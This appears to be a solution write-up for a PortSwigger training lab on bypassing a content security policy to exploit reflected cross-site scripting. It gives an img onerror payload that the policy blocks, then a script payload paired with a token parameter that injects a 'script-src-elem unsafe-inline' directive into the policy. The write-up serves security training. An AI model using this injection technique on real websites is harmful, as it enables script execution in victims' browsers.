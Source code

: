 
----

### Lab Description

This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and calls the `alert` function.

Please note that the intended solution to this lab is only possible in Chrome

### Lab solution

- Insert the payload `<img src=1 onerror=alert(1)/>`

![](/static/img/Pasted_image_20230703092346.png)

- Verify that the `CSP` blocking the execution of the script
- Insert the following payload `<script>alert%281%29<%2Fscript>&token=;script-src-elem%20%27unsafe-inline%27`
![](/static/img/Pasted_image_20230703092813.png)
